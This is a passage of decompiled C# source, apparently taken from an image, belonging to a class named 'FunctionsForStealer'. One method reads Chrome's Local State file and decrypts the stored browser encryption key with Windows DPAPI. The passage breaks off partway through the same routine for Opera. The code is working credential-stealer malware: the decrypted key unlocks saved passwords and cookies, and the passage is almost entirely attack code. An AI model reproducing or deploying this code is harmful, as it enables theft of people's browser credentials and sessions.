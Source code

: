 ```csharp
		{
			public static byte[] GetKeyChrome()
			{
				string text = Variables.localappdata + "\\Google\\Chrome\\User Data\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.LocalMachine);
			}

			// Token: 0x0600001C RID: 28 RVA: 0x00003124 File Offset: 0x00001324
			public static byte[] GetKeyOpera()
			{
				string text = Variables.roamingappdata + "\\Opera Software\\Opera Stable\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1.Target;
```